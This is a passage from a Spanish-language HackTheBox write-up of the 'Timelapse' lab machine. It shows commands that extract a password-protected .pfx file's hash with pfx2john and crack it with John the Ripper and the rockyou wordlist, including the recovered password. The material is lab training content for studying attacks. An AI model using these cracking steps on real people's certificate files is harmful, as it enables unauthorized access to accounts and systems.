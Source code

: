- Siguiente los pasos del articulo vemos que si hacemos lo siguiente para extraer la **private key** nos pide contraseña. 

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/timelapse/web2.png">
</p>

```bash
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert
Enter Import Password:
```

- Pero bueno podemos usar `pfx2john`. 

```bash
❯ python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > hash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:42 DONE (2023-07-26 12:48) 0.02365g/s 76436p/s 76436c/s 76436C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/timelapse/web3.png">
</p>
